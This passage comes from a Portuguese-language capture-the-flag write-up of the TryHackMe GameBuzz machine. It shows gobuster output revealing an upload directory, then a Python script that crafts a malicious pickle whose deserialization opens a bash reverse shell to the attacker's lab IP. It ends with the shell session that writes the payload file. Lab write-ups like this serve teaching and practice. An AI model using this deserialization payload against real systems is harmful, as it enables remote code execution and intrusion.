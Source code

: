 ```bash
http://dev.incognito.com/secret/.htpasswd            (Status: 403) [Size: 282]
http://dev.incognito.com/secret/upload               (Status: 200) [Size: 370]
                                                                              
===============================================================
2021/09/12 22:49:28 Finished
===============================================================
```
O gobuster trouxe o diretório `/upload`, ao acessá-lo, encontrei um formulário de upload.

<img src="/img/thm/thm-gamebuzz-7.png">

Como o diretório é `/upload` e a requisição do `Game Ratings` vai para o diretório `/var/upload/games`, tavlez estejamos falando do mesmo lugar, então decidi fazer um script em `python` para serializar um payload com reverse shell.

```bash
┌──(hastur㉿hastur)-[~/GameBuzz]
└─$ cat serialize.py 
#!/usr/bin/python3

import pickle, os

class SerializedPickle(object):
    def __reduce__(self):
        return(os.system,("bash -c 'bash -i >& /dev/tcp/10.9.0.44/8443 0>&1'",))

pickle.dump(SerializedPickle(), open('hastur','wb'))
```
Este script irá salvar nosso payload em um arquivo para podermos subí-lo pelo formulário.

```bash
┌──(hastur㉿hastur)-[~/GameBuzz]
└─$ python3 serialize.py               
                                                                                                                     
┌──(hastur㉿hastur)-[~/GameBuzz]
└─$ ls -la
total 16
drwxr-xr-x  2 hastur hastur 4096 Sep 12 22:56 .
drwxr-xr-x 33 hastur hastur 4096 Sep 12 22:48 ..
-rw-r--r--  1 hastur hastur   87 Sep 12 22:56 hastur
-rw-r--r--  1 hastur hastur  236 Sep 12 22:54 serialize.py
```
